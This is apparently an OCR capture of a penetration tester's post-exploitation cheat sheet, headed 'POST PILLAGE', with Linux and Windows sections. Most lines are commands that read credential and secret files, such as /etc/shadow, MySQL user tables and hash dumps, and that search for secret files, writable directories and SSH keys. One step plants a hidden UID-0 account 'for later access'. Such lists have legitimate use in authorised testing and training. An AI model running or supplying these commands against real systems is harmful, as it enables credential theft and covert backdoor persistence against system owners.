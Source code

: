cat /var/apache2/config.inc

cat /var/lib/mysql/mysql/user.MYD

cat /root/anaconda-ks.cfg

==========================================================================================
				POST PILLAGE
==========================================================================================
cat hashdump.txt | cut -d ":" -f4


++++++++++++++++++++LINUX+++++++++++++++++++++++++++
#Raw shell... set PATH to ease the pain
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

cat /etc/passwd

cat /etc/shadow

locate ssh_config

find / -name '*secret*'
	-type f		Object is a file
	-type d		Object is a directory
	-name
	-perm		Permissions at least match
	-mmin <-+time>	File modified in less or more minutes
	-mtime <+-days>
	-user <username>
#Who are the users?
getent passwd |tail -3

#email locations:
/var/mail/usernames
~username/Mail
~username/mail

#find juicy dirs
find / -type d -perm -777 | xargs ls -ld

# find writable dirs
find / -type d -writable 2> /dev/null

#Look for or plant SSH private keys
~username/.ssh

#adding yourself as root user for later access
adduser thedude
passwd thedude
usermod --uid 0 --non-unique thedude


++++++++++++++++++WINDOWS+++++++++++++++++++++++++++
#poor mans whoami
tasklist -v
